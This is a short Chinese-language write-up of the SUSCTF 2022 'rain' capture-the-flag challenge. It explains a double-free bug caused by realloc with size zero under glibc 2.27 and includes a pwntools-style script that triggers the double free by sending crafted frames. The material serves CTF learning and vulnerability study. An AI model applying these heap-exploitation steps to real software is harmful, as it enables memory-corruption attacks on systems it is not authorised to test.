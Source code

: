   这里注意到`v7 = realloc((void *)a1->userchunk, v6 - 0x12);`，该行代码用了`realloc()`，如果申请调整的空间为0，相当于`free()`，考虑到glibc 2.27 1.2没有对double free进行检测，因此存在double free的问题。

## 调试

如下代码进行调试：

```python
def Frame(height, width, font_color, back_color, rainfall, table):
    frame = p32(height)  # 4
    frame += p32(width)  # 4
    frame += p8(font_color)  # 1
    frame += p8(back_color)  # 1
    frame += p32(rainfall)  # 4
    frame += p32(0xbabeface)  # 14+4=18 => 0x12
    frame += table
    return frame


def Config(frame):
    p.sendlineafter("ch> ", "1")
    p.sendafter("FRAME> ", frame)
    
if __name__ == '__main__':
    # 1 --realloc userchunk
    frame1 = Frame(0x30, 0x30, 3, 4, 1, b'a'*0x20)	# # size = 0x32
    Config(frame1)

    # 2 --free
    frame2 = Frame(0x10, 0x10, 3, 4, 1, b'')		# size = 0x12
    Config(frame2)

    # 3 --double free
    frame3 = Frame(0x20, 0x20, 3, 4, 1, b'')		# size = 0x12
    Config(frame3)
```

观察堆块信息可以看到：

![](./ctf-susctf2022-rain/heap_info_0.jpg)
